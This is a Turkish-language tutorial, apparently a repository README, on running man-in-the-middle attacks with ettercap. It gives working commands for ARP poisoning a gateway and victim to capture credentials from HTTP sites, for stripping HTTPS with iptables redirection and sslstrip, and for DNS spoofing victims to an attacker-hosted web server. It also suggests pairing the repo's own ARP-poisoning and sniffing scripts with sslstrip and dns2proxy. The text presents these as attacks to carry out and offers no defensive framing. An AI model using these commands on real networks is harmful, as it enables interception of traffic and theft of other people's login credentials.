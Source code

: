 # MITM Saldırısı
MITM (Man In The Middle) saldırısı yapmak için kullanılan bir sürü araç vardır. Benim tercihim ise ettercap. Sebebi ise kullanırken diğer araçlara nazaran (mitmproxy, bettercap gibi) daha az hata ile karşılaşmam. Bir diğer sebebi ise grafiksel arayüzünün de mevcut olması.
### Ettercap ile HTTP siteler için saldırmak
Ettercap ile saldırı yapmadan önce /etc/ettercap/etter.conf dosyasında değişiklik yapmamız gerekiyor.<br/>
`leafpad /etc/ettercap/etter.conf`<br/>
komutu ile ilgili dosyayı açıyoruz.<br/>
#####################################<br/>
\# redir_command_on/off<br/>
#####################################<br/>
başlığı altında Linux bölmesinde redir_command_on ve redir_command_off satırlarının başında bulunan # karakterlerini siliyoruz. Sonrasında ettercap’i çalıştırabiliriz.<br/>
`ettercap -Tq ///`<br/>
bu komut ile ettercap’i sadece çalıştırdık, bir adres vs. girmediğimiz için herhangi bir saldırı başlatmadık. bu komutu çalıştırdıktan sonra l tuşuna basarsak aynı ağdaki cihazları bulacaktır. q ile de çıkış yapabiliyoruz.<br/>
Saldırı yapmak için;<br/>
`ettercap -Tq -M arp:remote -i eth0 /192.168.10.1// /192.168.10.131//`<br/>
Burada ///’ların bir anlamı var. mac_adress/ipv4/ipv6/port şeklinde girdi verebiliyoruz. Yukarıda ipv4 kullanarak bir saldırı yaptık. Önce modemin IP adresini, sonra kurbanın IP adresini yazdık. Bu komutu yazdıktan sonra kurban bir http sitesi üzerinden credentials girerse terminalimize düşecektir.
### Ettercap ile HTTPS siteler için saldırmak
HTTPS sitelerden gelen bilgileri okumak için ya ettercap içindeki bir plugin'i, ya da sslstrip kullanmalıyız. sslstrip halihazırda yoksa indirmeliyiz. Lakin kurulumu ve çalıştırmasında bazen sorun çıkabiliyor. Bunun için internetten araştırma yapabilirsin. Benim karşılaştığım bir sorun vardı, çözümünü bulduğum video: [Sslstrip | requirement already satisfied: twisted in /usr/lib/python3/dist-packages (18.9.0)](https://www.youtube.com/watch?v=CCfJRYmJo2s&list=LL&index=1)<br/>
İlk olarak yönlendirme yapmalıyız.<br/>
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`<br/>
Sonra `sslstrip` diyerek sslstrip'i çalıştırıyoruz. Bir başka terminale geçip aşağıdaki komutu çalıştırıyoruz.
`ettercap -Tq -M arp:remote -S -i eth0 /192.168.10.1// /192.168.10.15//`<br/>
HTTP siteler için yaptığımız saldırıdaki komuttan farklı olarak -S ekledik. Eğer kurban HSTS olmayan, ama HTTPS kullanan bir sitede credentials girerse elimize düşecektir. Evet, maalesef HSTS varsa saldırımız işe yaramıyor. HSTS'in ne olduğu ve buna karşılık nasıl bir saldırı yapılabileceğini konu alan bir makale bu döküman ile birlikte paylaşılmıştır.<br/>
İşimiz bittikten sonra aşağıdaki komut ile yaptığımız yönlendirmeleri kaldırabiliriz.<br/>
`iptables -t nat --flush`
### Ettercap ile DNS Saldırısı
DNS saldırısını şu şekilde özetleyebiliriz: Biz ortadaki adam olduğumuza göre bir kullanıcı bir siteye girmek istediğinde o kullanıcıya DNS sunucusunun o site için döndüğü IP adresi yerine başka bir IP adresi verebiliriz. Bunun adı DNS saldırısıdır. Göreceğimiz örnekte bir web sunucusu kurup ağ içindeki diğer kullanıcıları yerel ağda bulunan sitemize yönlendireceğiz. Kali Linux üzerinde web sunucusu kurmak için:<br/>
`service apache2 start`<br/>
Sonrasında /etc/ettercap/etter.dns dosyasında değişiklik yapmalıyız.<br/>
`leafpad /etc/ettercap/etter.dns`<br/>
Aşağıdaki eklemeleri yapıyoruz:<br/>
```
domain.com A 10.0.2.10
*.domain.com A 10.0.2.10
www.domain.com A 10.0.2.10
```
Bunlardan biri de yapacağımız saldırıya göre yeterli olabilir. Sonrasında aşağıdaki komut ile saldırımızı başlatıyoruz.<br/>
`ettercap -Tq -M arp:remote -P dns_spoof -i eth0 /192.168.10.1// /192.168.10.15//`
### Sonuç
Ettercap ile MITM saldırısının nasıl yapılacağını görmüş olduk. Tabii ki ettercap tek araç değil, birçok farklı araç kullanılarak da MITM saldırısı yapılabilir. Hatta bu repo içinde bulunan scriptler ile de MITM saldırısı yapılabilir. Hatta ve hatta bu scriptler başka araçlarla birlikte kullanılıp HTTPS siteler için MITM saldırısı yapılabilir. Örnek verecek olursak arp_poisoner ve packet_listener scriptlerimizi sslstrip ve dns2proxy ile birlikte kullanarak HTTPS siteler için MITM saldırısı yapabiliriz.
